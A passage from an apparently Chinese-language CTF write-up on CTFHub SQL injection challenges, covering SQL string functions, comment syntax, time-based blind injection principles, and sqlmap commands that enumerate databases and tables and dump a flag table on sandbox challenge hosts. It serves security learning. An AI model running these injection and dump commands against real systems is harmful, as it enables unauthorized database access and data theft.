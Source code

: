 left(str,num) 同理:字符串从左开始截取num个字符
substr(str,N,M) 字符串，从第N个字符开始，截取M个字符

和一些基本sql语法
和一些基本注释：
#，–空格，/* */

------

使用sqlmap来进行爆破

```
python sqlmap.py -u "http://challenge-ebc1cd479c500d9e.sandbox.ctfhub.com:10800/?id=1" --dbs
```

这里python sqlmap.py -u"url" -batch是基本的注入框架，“-dbs”指向数据库。

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609164002178.png" alt="image-20220609164002178" style="zoom:80%;" />

```html
python sqlmap.py -u "http://challenge-ebc1cd479c500d9e.sandbox.ctfhub.com:10800/?id=1" -D sqli --tables
```

-D是数据库，“-tables”指向爆破表名。

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609164153911.png" alt="image-20220609164153911" style="zoom:80%;" />

```
python sqlmap.py -u "http://challenge-ebc1cd479c500d9e.sandbox.ctfhub.com:10800/?id=1" -D sqli -T flag --columns --dump
```

-T是表名，-columns是爆破列名,-dump是爆数据

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609164407130.png" alt="image-20220609164407130" style="zoom:80%;" />

### **时间盲注

基于时间的盲注就是在sql注入过程中，sql语句执行的选择后，选择的数据不能回显到前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。

**盲注原理：**

盲注的本质就是猜解，在没有回显数据的情况下，我们只能靠‘感觉’来体会每次查询时一点点细微的差异，而这差异包括运行时间的差异和页面返回结果的差异。

对于基于布尔的盲注来说，我们可以构造一条注入语句来测试我们输入的布尔表达式，而这布尔表达式结果的真假，决定了每次页面有不同的反应。

对于基于时间的盲注来说，我们构造的语句中，包含了能否影响系统运行时间的函数，根据每次页面返回的时间，判断注入的语句是否被成功执行。

使用sqlmap来进行爆破

```
python sqlmap.py -u "http://challenge-e99a1b60dec1fa53.sandbox.ctfhub.com:10800/?id=1" --dbs
```

这里python sqlmap.py -u"url" -batch是基本的注入框架，“-dbs”指向数据库。

![image-20220609171203829](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609171203829.png)

```html
python sqlmap.py -u "http://challenge-e99a1b60dec1fa53.sandbox.ctfhub.com:10800/?id=1" -D sqli --tables
```
